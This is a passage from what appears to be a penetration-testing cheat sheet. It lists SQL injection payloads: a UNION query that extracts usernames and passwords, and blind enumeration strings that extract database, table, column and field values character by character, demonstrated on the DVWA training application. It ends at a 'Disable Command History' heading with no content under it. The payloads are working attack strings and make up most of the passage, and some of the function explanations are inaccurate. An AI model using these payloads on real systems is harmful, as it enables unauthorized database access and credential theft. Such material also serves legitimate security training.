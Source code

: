 ```
SELECT column\_name FROM all\_tab\_columns WHERE table\_name = '**&lt;table\_name&gt;**'
```

<span id="anchor-156"></span>Collecting Specific Information

```
%' UNION SELECT user, password from users \#
```

<span id="anchor-157"></span>Error Based Blind Enumeration

<span id="anchor-158"></span>Enumerate Database Name

```
1 AND ORD(MID((SELECT IFNULL(CAST(database() AS CHAR), 0x20)),1,1))&gt;1
```

<span id="anchor-159"></span>Enumerate Table Name

```
1 AND ORD(MID((SELECT IFNULL(CAST(table\_name AS CHAR),0x20) FROM information\_schema.tables WHERE table\_schema=database() ORDER BY table\_name LIMIT 0,1),1,1))&gt;1
```

<span id="anchor-160"></span>Enumerate Column Name

```
1 AND ORD(MID((SELECT IFNULL(CAST(column\_name AS CHAR),0x20) FROM information\_schema.columns WHERE table\_name=0x6775657374626f6f6b ORDER BY column\_name LIMIT 0,1),1,1))&gt;1
```

<span id="anchor-161"></span>Enumerate Field Value

Explaination:

-   ORD(string) - Returns the leftmost character in a string
-   MID(string, position, length) - Extracts a substring, returns 5th
    position single character
-   IFNULL(expression1, expression2) - Returns 1st expression is not
    NULL, otherwise returns 2nd
-   CAST() - Casts the string containing the column name to CHAR
-   0x20 is a space and the first printable ASCII character
-   LIMIT 0, 1 - Returns first single row.

This query will return true if the single character that is in the 5th
position of the name field in the first row of the guestbook table of
the dvwa database is greater than 1. The final number is increased until
the result is false. A false result, past 1, indicates that the value
was located. If the false result happens at 1, that means that the value
is NULL/non-existent.

```
1 AND ORD(MID((SELECT IFNULL(CAST(name AS CHAR),0x20) FROM dvwa.guestbook ORDER BY name LIMIT 0,1),5,1))&gt;1
```

<span id="anchor-162"></span>Linux Commands

<span id="anchor-163"></span>Disable Command History
